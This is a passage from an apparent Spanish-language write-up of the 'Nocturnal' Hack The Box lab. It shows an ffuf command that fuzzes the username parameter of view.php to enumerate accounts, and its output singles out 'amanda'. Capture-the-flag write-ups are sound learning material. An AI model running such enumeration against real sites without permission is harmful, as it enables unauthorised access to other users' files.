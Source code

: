 ![upload](/assets/img/nocturnal-easy/Pasted%20image%2020250823150323.png)

he subido un archivo test.pdf, que no contiene mucho, sin embargo una vez subido el archivo hace referencia 

![view-link](/assets/img/nocturnal-easy/Pasted%20image%2020250823151114.png)

Y acepta como parámetro el usuario, entonces, que pasa si hacemos un fuzzing a los usuarios? hasta encontrar uno que sea el correcto

```bash
╭─kali@kali ~/Nocturnal at 🕐 18:14
╰─❯ ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' \
-w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
-mc 200 -fr "User not found." \
-H "Cookie: PHPSESSID=[REDACTED]"
```

Pese que aparecieron muchos usuarios, el mas interesante es amanda, puesto que amanda tiene un tamaño diferente al de todos los demas, esto ya es una buena pista y buen comienzo

```bash
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 142ms]
```
